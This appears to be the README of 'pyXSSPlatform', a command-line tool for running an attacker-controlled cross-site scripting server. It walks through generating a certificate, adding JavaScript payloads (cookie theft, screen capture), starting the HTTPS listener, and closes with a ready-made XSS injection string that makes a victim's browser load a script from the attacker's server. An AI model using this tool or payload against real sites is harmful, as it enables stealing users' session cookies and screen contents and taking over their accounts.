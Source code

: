 # pyXSSPlatform
Used to build an XSS platform on the command line.

Usage:

1.generate the cert file

You can use openssl like this:

openssl req -new -x509 -keyout https_svr_key.pem -out https_svr_key.pem -days 3650 -nodes

2.add your js code to index.js

You can refer to the files in Payload_Template folder

Payload:

- GetCookie
- CaptureScreen
- GET/POST

3.start the HTTPS server

pyXSSPlatform.py <listen address> <listen port> <cert file>

Eg.

pyXSSPlatform.py 0.0.0.0 443 https_svr_key.pem

Finally, you can try the following pyaload :

<img src=x onerror=with(document)body.appendChild(document.createElement('script')).src="https://<your XSSPlatform ip>/index.js"></img>
